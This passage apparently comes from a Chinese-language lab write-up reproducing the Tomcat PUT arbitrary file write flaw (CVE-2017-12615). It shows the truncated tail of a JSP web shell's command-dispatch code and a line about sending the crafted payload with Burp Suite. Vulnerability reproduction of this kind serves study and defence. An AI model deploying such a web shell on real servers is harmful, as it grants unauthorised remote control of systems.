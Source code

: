                 OO(z1, sb);  
           } else if (Z.equals("P")) {  
               PP(z1, sb);  
           } else if (Z.equals("Q")) {  
            QQ(cs, z1, z2, sb,z2.indexOf("-to:")!=-1?z2.substring(z2.indexOf("-to:")+4,z2.length()):s.replaceAll("\\\\", "/")+"images/");  
         }  
        } catch (Exception e) {  
     sb.append("ERROR" + ":// " + e.toString());  
      }  
    sb.append("|" + "<-");  
    out.print(sb.toString());  
    }  
    %>

我们还是利用burpsuite发送我们构造的payload：

![](resource/(CVE-2017-12615)TomcatPUT方法任意文件写入漏洞/media/rId37.png)
